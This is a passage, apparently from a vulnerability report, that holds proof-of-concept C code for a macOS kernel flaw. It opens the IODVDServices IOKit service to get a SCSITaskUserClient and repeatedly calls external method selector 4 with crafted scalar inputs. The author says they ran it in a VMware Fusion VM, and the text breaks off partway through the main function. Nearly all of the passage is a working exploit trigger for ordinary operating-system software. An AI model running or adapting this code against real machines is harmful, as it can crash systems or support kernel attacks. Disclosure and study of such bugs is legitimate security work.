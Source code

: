 ## PoC Code
Please run the PoC with DVD service enabled since I use the `IODVDServices` to get SCSITaskUserClient.  
I run the PoC in my VM fusion.  

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <IOKit/IOKitLib.h>


void trigger(io_connect_t conn)
{
    uint64_t INPUTSCALAR[8];
    uint32_t INPUTSCALARCNT = 1;
    
    char INPUTSTRUCT[4096];
    size_t INPUTSTRUCTCNT = 0;
    
    uint64_t OUTPUTSCALAR[8] = {0};
    uint32_t OUTPUTSCALARCNT = 0;
    
    char OUTPUTSTRUCT[4096];
    size_t OUTPUTSTRUCTCNT = 0;
    
    //FILL INPUT
    INPUTSCALARCNT = 1;
    
    OUTPUTSCALARCNT = 0;
    INPUTSTRUCTCNT = 0;
    OUTPUTSTRUCTCNT = 0;
    
    for (int i=0;i<0x1000;i++) {
        INPUTSCALAR[0] = i * 4;
        
        IOConnectCallMethod(
                            conn,
                            4,
                            INPUTSCALAR,
                            INPUTSCALARCNT,
                            INPUTSTRUCT,
                            INPUTSTRUCTCNT,
                            OUTPUTSCALAR,
                            &OUTPUTSCALARCNT,
                            OUTPUTSTRUCT,
                            &OUTPUTSTRUCTCNT);
    }

    
}


int main(){
    
    kern_return_t err;
    
    CFMutableDictionaryRef Matching = IOServiceMatching("IODVDServices");
    
    if(!Matching){
        
        printf("UNABLE TO CREATE SERVICE MATCHING DICTIONARY\n");
```